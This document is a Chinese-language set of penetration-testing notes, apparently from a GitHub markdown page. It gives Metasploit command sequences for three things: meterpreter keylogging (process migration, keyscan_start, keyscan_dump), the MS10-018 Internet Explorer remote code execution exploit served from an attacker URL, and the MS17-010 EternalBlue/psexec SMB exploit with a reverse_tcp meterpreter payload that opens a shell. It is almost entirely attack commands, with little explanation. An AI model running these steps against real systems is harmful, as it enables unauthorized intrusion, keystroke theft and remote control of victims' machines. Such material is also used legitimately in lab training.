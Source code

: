 **键盘记录**

```
meterpreter> ps
meterpreter> migrate xxx  # 将木马注入到一个进程中，目标进程，或目标进程到父进程
meterpreter> keyscan_start
meterpreter> keyscan_dump
```

## MS10-018
10 年，第 18 个漏洞

IE 查看特定网页，远程代码执行

**攻击**

1. 准备环境

```
msf6 > search ms10_018
msf6 > use exploit/windows/browser/ms10_018_ie_behaviors
msf6 exploit(windows/browser/ms10_018_ie_behaviors) >
msf6 exploit(windows/browser/ms10_018_ie_behaviors) > set srvhost x.x.x.x # 本机ip
msf6 exploit(windows/browser/ms10_018_ie_behaviors) > set URIPATH test
msf6 exploit(windows/browser/ms10_018_ie_behaviors) > exploit
```

2. XP 上访问我们的网址

使用 IE 访问这个地址 http://x.x.x.x:8080/test

3. 连接 shell

```
> jobs
> sessions -i 1
meterpreter> shell
```

## MS17-010

永恒之蓝

攻击者向 SMBv1 服务模块发送特殊的消息

windows7


```
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_psexec # xp, for win7, use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOST x.x.x.x
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
